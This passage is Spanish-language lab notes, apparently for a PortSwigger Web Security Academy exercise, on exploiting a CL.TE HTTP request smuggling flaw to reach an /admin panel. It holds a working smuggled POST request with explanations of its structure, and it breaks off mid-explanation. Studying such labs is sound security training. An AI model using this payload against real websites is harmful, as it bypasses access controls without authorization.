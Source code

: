 ### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

En una pagina tenemos acceso a la raiz `/` pero no al panel adminstrativo `/admin`.

se tiene un tipo de vulnerabilidad **CL.TE** esta sera la estructura:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0 (\r\n)
(\r\n)
GET / HTTP/1.1 (peticion 2)
```

interceptamos la peticion original:

![[Pasted image 20230220200828.png]]

vamos a cambiar de metodo la peticion:

![[Pasted image 20230220201012.png]]

eliminamos todos los headers y solo dejamos el header `host`, `Content-Type` y `Content-Length` y vemos si responde la pagina (esto para simplificar las cosas):

![[Pasted image 20230220201135.png]]

vamos a agregar el header `Transfer-Encoding: chunked` y vamos a darle el formato de CL.TE:

```http
POST / HTTP/1.1
Host: 0a90009d030d6cc4c09bb879009d005b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a90009d030d6cc4c09bb879009d005b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

qwerty
```

1. el `0` indica la terminacion del `Transfer-Encoding` (para el backend)
2. despues agrego una peticion al `/admin` se puede copiar el post de arriba con los headers y cambiar el verbo, la URI y no colocar `Transfer-Encoding`
3. se pasa un parametro en la segunda peticion que puede ser cualquier valor, solo tiene que tener un `Content-Length` suficiente.
4. la longitud de la peticion POST (`167`) se lo calcula desde el final hasta despues del `0`:

